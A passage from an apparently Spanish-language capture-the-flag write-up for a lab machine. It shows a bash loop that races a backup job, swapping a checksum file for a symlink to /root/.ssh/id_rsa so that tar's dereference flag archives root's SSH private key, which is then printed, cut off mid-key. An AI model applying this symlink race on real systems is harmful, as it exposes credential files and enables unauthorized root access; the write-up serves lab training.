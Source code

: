 En un punto, al comando ```tar``` se le pasa el parámetro ```-h```. En el manual se puede ver en qué consiste. Muestra el contenido por pantalla de un enlace simbólico

```null
-h, --dereference
       Follow symlinks; archive and dump the files they point to.

```

Creo un script en ```bash``` que se encargue de secuestrar el archivo

```null
tom@epsilon:/tmp$ cat toroot.sh 
#!/bin/bash

while true; do
	if [ -e /opt/backups/checksum ]; then
		rm -f /opt/backups/checksum
		ln -s -f /root/.ssh/id_rsa /opt/backups/checksum
		echo "[+] Pwned!!!"
		break
	fi
done
```

```null
tom@epsilon:/tmp$ ./toroot.sh 
[+] Pwned!!!
```

Copio el comprimido a ```/tmp```

```null
tom@epsilon:/tmp$ cp /var/backups/web_backups/814017470.tar .
```

Lo descomprimo

```null
tom@epsilon:/tmp$ tar -xf 814017470.tar 
```

Puedo ver la ```id_rsa```

```null
tom@epsilon:/tmp/opt/backups$ cat checksum 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA1w26V2ovmMpeSCDauNqlsPHLtTP8dI8HuQ4yGY3joZ9zT1NoeIdF
16L/79L3nSFwAXdmUtrCIZuBNjXmRBMzp6euQjUPB/65yK9w8pieXewbWZ6lX1l6wHNygr
QFacJOu4ju+vXI/BVB43mvqXXfgUQqmkY62gmImf4xhP4RWwHCOSU8nDJv2s2+isMeYIXE
SB8l1wWP9EiPo0NWlJ8WPe2nziSB68vZjQS5yxLRtQvkSvpHBqW90frHWlpG1eXVK8S9B0
1PuEoxQjS0fNASZ2zhG8TJ1XAamxT3YuOhX2K6ssH36WVYSLOF/2KDlZsbJyxwG0V8QkgF
u0DPZ0V8ckuh0o+Lm64PFXlSyOFcb/1SU/wwid4i9aYzhNOQOxDSPh2vmXxPDkB0/dLAO6
wBlOakYszruVLMkngP89QOKLIGasmzIU816KKufUdLSFczig96aVRxeFcVAHgi1ry1O7Tr
oCIJewhvsh8I/kemAhNHjwt3imGulUmlIw/s1cpdAAAFiAR4Z9EEeGfRAAAAB3NzaC1yc2
EAAAGBANcNuldqL5jKXkgg2rjapbDxy7Uz/HSPB7kOMhmN46Gfc09TaHiHRdei/+/S950h
cAF3ZlLawiGbgTY15kQTM6enrkI1Dwf+ucivcPKYnl3sG1mepV9ZesBzcoK0BWnCTruI7v
r1yPwVQeN5r6l134FEKppGOtoJiJn+MYT+EVsBwjklPJwyb9rNvorDHmCFxEgfJdcFj/RI
j6NDVpSfFj3tp84kgevL2Y0EucsS0bUL5Er6RwalvdH6x1paRtXl1SvEvQdNT7hKMUI0tH
zQEmds4RvEydVwGpsU92LjoV9iurLB9+llWEizhf9ig5WbGycscBtFfEJIBbtAz2dFfHJL
odKPi5uuDxV5UsjhXG/9UlP8MIneIvWmM4TTkDsQ0j4dr5l8Tw5AdP3SwDusAZTmpGLM67
lSzJJ4D/PUDiiyBmrJsyFPNeiirn1HS0hXM4oPemlUcXhXFQB4Ita8tTu066AiCXsIb7If
CP5HpgITR48Ld4phrpVJpSMP7NXKXQAAAAMBAAEAAAGBAMULlg7cg8oaurKaL+6qoKD1nD
Jm9M2T9H6STENv5//CSvSHNzUgtVT0zE9hXXKDHc6qKX6HZNNIWedjEZ6UfYMDuD5/wUsR
EgeZAQO35XuniBPgsiQgp8HIxkaOTltuJ5fbyyT1qfeYPqwAZnz+PRGDdQmwieIYVCrNZ3
A1H4/kl6KmxNdVu3mfhRQ93gqQ5p0ytQhE13b8OWhdnepFriqGJHhUqRp1yNtWViqFDtM1
lzNACW5E1R2eC6V1DGyWzcKVvizzkXOBaD9LOAkd6m9llkrep4QJXDNtqUcDDJdYrgOiLd
/Ghihu64/9oj0qxyuzF/5B82Z3IcA5wvdeGEVhhOWtEHyCJijDLxKxROuBGl6rzjxsMxGa
gvpMXgUQPvupFyOapnSv6cfGfrUTKXSUwB2qXkpPxs5hUmNjixrDkIRZmcQriTcMmqGIz3
```